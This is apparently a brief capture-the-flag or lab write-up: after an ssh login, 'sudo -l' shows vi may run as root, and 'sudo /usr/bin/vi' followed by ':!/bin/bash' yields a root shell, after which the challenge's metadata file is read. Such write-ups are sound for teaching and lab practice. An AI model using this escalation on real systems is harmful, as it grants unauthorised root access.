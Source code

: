 login in with ssh
checking sudo -l

we can see we can do vi with sudo

sudo /usr/bin/vi
:!/bin/bash
gets us a shell
cat /challenge/metadata.json